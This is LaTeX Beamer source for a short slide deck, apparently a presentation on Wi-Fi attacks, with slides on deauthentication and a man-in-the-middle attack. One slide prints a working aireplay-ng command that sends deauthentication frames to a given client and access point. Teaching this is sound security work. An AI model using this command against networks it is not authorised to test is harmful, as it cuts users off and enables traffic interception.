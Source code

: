 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}{Wi-Fi deauthentication}
\centering
\includegraphics[width=\textwidth]{MinM.png}\\
aireplay-ng -0 10 -a 40:4E:36:CC:18:A9 -c DC:53:60:1F:27:5A wlan0\\
\includegraphics[width=\textwidth]{codedauth.png}
\end{frame}



\begin{frame}{Wi-Fi MitM attack}
\centering
\includegraphics[width=\textwidth]{mitm.jpg}
\end{frame}


\section{Questions}

\begin{frame}{Questions?}

Questions?

%
%
\end{frame}
\end{document}
